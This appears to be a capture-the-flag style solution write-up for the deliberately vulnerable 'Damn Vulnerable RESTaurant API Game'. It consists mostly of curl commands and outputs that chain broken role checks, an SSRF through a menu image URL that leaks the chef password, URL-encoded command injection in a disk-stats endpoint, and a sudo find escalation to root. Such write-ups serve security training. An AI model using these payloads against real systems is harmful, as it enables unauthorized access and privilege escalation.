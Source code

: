 # DV-RESTaurant-API-Game-Solution
# First we review the /docs endpoint for goodies
Attempt a few calls without auth just to see what we can do and what the responses are.  Quickly realize for any fun we need to authenticate.  Next we move onto creating a user.

## create a user
```bash
curl -X POST http://192.168.1.2:8089/register \
     -H "Content-Type: application/json" \
     -d '{
           "username": "testuser",
           "password": "securepassword123",
           "first_name": "Test",
           "last_name": "User",
           "phone_number": "1234567890"
         }'
		 
{"username":"testuser","first_name":"Test","last_name":"User","phone_number":"1234567890","role":"Customer"}
```

### fetch token
```bash
curl -X POST http://192.168.1.2:8089/token \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "username=testuser&password=securepassword123"

{"access_token":"${TOKEN}","token_type":"bearer"}
```

### authenticate
```bash
curl -X GET http://192.168.1.2:8089/profile \
     -H "Authorization: Bearer ${TOKEN}"
```

### get profile info
```bash
curl -k -H "Authorization: Bearer ${TOKEN}" http://192.168.1.2:8089/profile

{"username":"testuser","first_name":"Test","last_name":"User","phone_number":"1234567890","role":"Customer"}
```

### hit the disk endpoint to see what type of response we get
```bash
curl -k -H "Authorization: Bearer ${TOKEN}" http://192.168.1.2:8089/admin/stats/disk

{"detail":"Only Chef is authorized to get current disk stats!"}
```

### attempt to update role for testuser to Chef
```bash
curl -X PUT http://192.168.1.2:8089/users/update_role \
     -H "Authorization: Bearer ${TOKEN}" \
     -H "Content-Type: application/json" \
     -d '{
           "username": "testuser",
           "role": "Chef"
         }'

{"detail":"Only Chef is authorized to add Chef role!"}
```

## At this point I jump to review the code for any goodies - [app/apis/users/service.py](https://github.com/theowni/Damn-Vulnerable-RESTaurant-API-Game/blob/main/app/apis/users/service.py#L18)
```
# this method allows staff to give Employee role to other users
# Chef role is restricted
```

### reviewed the code looks juicy - [app/apis/admin/service.py](https://github.com/theowni/Damn-Vulnerable-RESTaurant-API-Game/blob/main/app/apis/admin/service.py#L20)
```
"/admin/reset-chef-password"
```
Interesting......come back to this later

### attempt to update role from testuser to Employee just for kicks
```bash
curl -X PUT http://192.168.1.2:8089/users/update_role \
     -H "Authorization: Bearer ${TOKEN}" \
     -H "Content-Type: application/json" \
     -d '{
           "username": "testuser",
           "role": "Employee"
         }'

{"username":"testuser","role":"Employee"}
```

### validate role
```bash
curl -k -H "Authorization: Bearer ${TOKEN}" http://192.168.1.2:8089/profile

{"username":"testuser","first_name":"Test","last_name":"User","phone_number":"1234567890","role":"Employee"}
```
Nice, we've gone from a general Customer role to Employee, sweet.

### attempt to update role for testuser from Employee to Chef cause why not
```bash
curl -X PUT http://192.168.1.2:8089/users/update_role \
     -H "Authorization: Bearer ${TOKEN}" \
     -H "Content-Type: application/json" \
     -d '{
           "username": "testuser",
           "role": "Chef"
         }'
{"detail":"Only Chef is authorized to add Chef role!"}
```
As expected...

## Circle back to previous findings and craft SSRF for the /menu endpoint to hit the local /admin/reset-chef-password
```bash
curl -X PUT http://192.168.1.2:8089/menu \
    -H "Authorization: Bearer ${TOKEN}" \
    -H "Content-Type: application/json" \
    -d '{
          "name": "Item",
          "price": 0.00,
          "category": "",
          "description": "",
          "image_url": "http://localhost:8080/admin/reset-chef-password"
        }'
		
{"id":15,"name":"Item","price":0.0,"category":"","description":"","image_base64":"eyJwYXNzd29yZCI6IjErN2p3KDZhSjRUcTFBWjZhOlh6X2VXWHRRIyNBcCh0In0="}
```

### decode the string
```bash
echo 'eyJwYXNzd29yZCI6IjErN2p3KDZhSjRUcTFBWjZhOlh6X2VXWHRRIyNBcCh0In0=' | base64 --decode
{"password":"1+7jw(6aJ4Tq1AZ6a:Xz_eWXtQ##Ap(t"}
```

### fetch token as Chef
```bash
curl -X POST http://192.168.1.2:8089/token \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "username=chef&password=1%2B7jw%286aJ4Tq1AZ6a%3AXz_eWXtQ%23%23Ap%28t"

{"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJjaGVmIiwiZXhwIjoxNzEzNTQwMTA1fQ.TQoVX_EOQKzIfjPwgJxxcGwVSfcge7QOVkNCny3wRvA","token_type":"bearer"}
```

### authenticate as chef
```bash
curl -X GET http://192.168.1.2:8089/profile \
     -H "Authorization: Bearer ${CHEF_TOKEN}"	 
	 
{"username":"chef","first_name":"Gustavo","last_name":"","phone_number":"(505) 146-0195","role":"Chef"}
```
Promoted to Chef, not bad.

## attempt RCE via the /admin/stats/disk endpoint
```bash
curl -k -H "Authorization: Bearer ${CHEF_TOKEN}" http://192.168.1.2:8089/admin/stats/disk?parameters=%26%26echo%20vulnerable%21
{"output":"Filesystem               Size  Used Avail Use% Mounted on\nfuse-overlayfs           149G  137G   13G  92% /\n/dev/mapper/fedora-root  149G  137G   13G  92% /app\ntmpfs                     64M     0   64M   0% /dev\ndevtmpfs                 4.0M     0  4.0M   0% /dev/mem\ntmpfs                    996M  1.2M  995M   1% /etc/hosts\nshm                       63M     0   63M   0% /dev/shm\nvulnerable!"}
```
So that works

### check for priv escalation opportunities
#### check if the "app" user has any sudo capabilities that can be exploited:
```bash
curl -k -H "Authorization: Bearer ${CHEF_TOKEN}" \
"http://192.168.1.2:8089/admin/stats/disk?parameters=%26%26sudo%20-l"
{"output":"Filesystem               Size  Used Avail Use% Mounted on\nfuse-overlayfs           149G  137G   13G  92% /\n/dev/mapper/fedora-root  149G  137G   13G  92% /app\ntmpfs                     64M     0   64M   0% /dev\ndevtmpfs                 4.0M     0  4.0M   0% /dev/mem\ntmpfs                    996M  1.2M  995M   1% /etc/hosts\nshm                       63M     0   63M   0% /dev/shm\nMatching Defaults entries for app on 1847d1ddb7e1:\n    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\n\nUser app may run the following commands on 1847d1ddb7e1:\n    (ALL) NOPASSWD: /usr/bin/find"}
```
:boom: "app" user has permission to run the /usr/bin/find command as root without a password (NOPASSWD). This is a banger of finding because the find command can be exploited to execute arbitrary commands with elevated privileges.

### create a garbage file under /root
```bash
curl -k -H "Authorization: Bearer ${CHEF_TOKEN}" \
"http://192.168.1.2:8089/admin/stats/disk?parameters=%26%26sudo%20/usr/bin/find%20/tmp%20-type%20f%20-exec%20/bin/sh%20-c%20'echo%20RCE%20test%20%3E%20/root/garbage.w00t'%20\\;"
{"output":"Filesystem               Size  Used Avail Use% Mounted on\nfuse-overlayfs           149G  137G   13G  92% /\n/dev/mapper/fedora-root  149G  137G   13G  92% /app\ntmpfs                     64M     0   64M   0% /dev\ndevtmpfs                 4.0M     0  4.0M   0% /dev/mem\ntmpfs                    996M  1.2M  995M   1% /etc/hosts\nshm                       63M     0   63M   0% /dev/shm"}
```
```bash
podman exec --user=root  damn-vulnerable-restaurant-api-game-web-1 ls /root/
total 24
drwx------.  2 root root  67 Apr 19 17:01 .
dr-xr-xr-x. 22 root root  63 Apr 19 16:42 ..
-rw-------.  1 root root  62 Apr 19 17:00 .bash_history
-rw-r--r--.  1 root root 570 Jan 31  2010 .bashrc
-rw-r--r--.  1 root root 148 Aug 17  2015 .profile
-rw-r--r--.  1 root root 254 Jun 13  2023 .wget-hsts
-rw-r--r--.  1 root root   9 Apr 19 17:01 garbage.w00t
```
